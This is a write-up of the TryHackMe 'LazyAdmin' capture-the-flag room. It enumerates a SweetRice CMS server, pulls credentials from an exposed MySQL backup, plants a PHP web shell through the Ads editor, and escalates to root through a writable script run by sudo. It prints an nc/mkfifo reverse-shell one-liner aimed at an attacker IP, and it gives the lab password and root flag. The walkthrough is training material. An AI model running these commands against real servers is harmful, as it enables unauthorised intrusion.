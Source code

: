 # LazyAdmin (Easy)

-Link: https://tryhackme.com/r/room/lazyadmin

---------------------------------------------------------------------------------------------
- Exploit the Server Apache Linux:

![Untitled](https://github.com/user-attachments/assets/080ebe79-5350-4cdd-9235-1edd9a5371e0)

- Scan ports and directory of the machine:

```bash
nmap -sV -vv -A -T4 <IP> -Pn
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

```bash
gobuster dir -u http://10.10.161.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.161.128/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.161.128/content/]
/server-status        (Status: 403) [Size: 278]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

- We try go to /content

![Untitled 1](https://github.com/user-attachments/assets/95eb11a2-5063-45db-820b-3801462f60ac)

—> Now we have the name of website: “SweetRice”.

- We don’t have more any information about the credentials so we have to research to find the vuln and weakness of the website.
- We use `searchsploit` to research “SweetRice”

```bash
searchsploit SweetRice
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion          | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities       | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download        | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload          | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure              | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery     | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / P | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File U | php/webapps/14184.txt
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

—> A lot of Vuln to exploit so first we will notice the vuln “Backup Disclosure” because maybe in the backup file we can find the credential.

![Untitled 2](https://github.com/user-attachments/assets/e66dedea-dfde-4ac0-ab51-68b0792df7bb)

—> We try the concept: Access to file mysql backup and download from the directory /inc/mysql_backup but we need to access through the directory /content which we scan directory in the enumuration.

![Untitled 3](https://github.com/user-attachments/assets/c715994d-81d0-4d61-901c-9f098cab4b0d)

- Now we open the file mysql_backup and find some information the credential.

![Untitled 4](https://github.com/user-attachments/assets/9bfdd2ec-aa2e-4f2a-9b29-d448762ded79)

—> We got the username is “manager” and password is the hash value 

- Dehash password: “Password123”
- We switch the another vuln. We knew that there are cms SweetRice has the vuln CSRF (Cross-Side Request Forgery) and we can execute PHP code. Try it!

![Untitled 5](https://github.com/user-attachments/assets/fa60fc9f-23af-4c88-966e-47f94adb721d)

- We have found that we could access /as to access page log in SweetRice. Now we use the credential we found to login.

![Untitled 6](https://github.com/user-attachments/assets/662d4cf9-99a9-4d4e-8b53-106a71326b01)

![Untitled 7](https://github.com/user-attachments/assets/510f8c88-7a22-4664-8659-0f759e647538)

—> Success!!!

- We read the vuln database CSRF to exploit it. We will manipulate Ads section to add PHP code in Ads file and through CSRF vuln we can execute PHP code. Let do it!!!

![Untitled 8](https://github.com/user-attachments/assets/bd518c80-8ee3-4579-afb1-22436ce4e406)

- Now we will ad the web PHP shell available into the code <?php ?> and run file. After file PHP executed we access page in /inc/ads/Hacked.php and catch the listener through netcat to get initial access.

![Untitled 9](https://github.com/user-attachments/assets/c13a9a3f-f15b-42bb-9028-3b9282c44f70)

![Untitled 10](https://github.com/user-attachments/assets/e9fcee61-1759-45cd-a931-03fc5f4ea194)

—> We got it!!!

# Privilege Escalation:

- First we can try command  `sudo -l`  to check file can run sudo with no password.

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```bash
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

—> This file run perl script and first it will run /etc/copy.sh file. 

```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.10 1234 >/tmp/f
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_Machine> 4444 >/tmp/f" > copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

```bash
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.75.150] from (UNKNOWN) [10.10.215.10] 51458
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# exit
```

END!!!
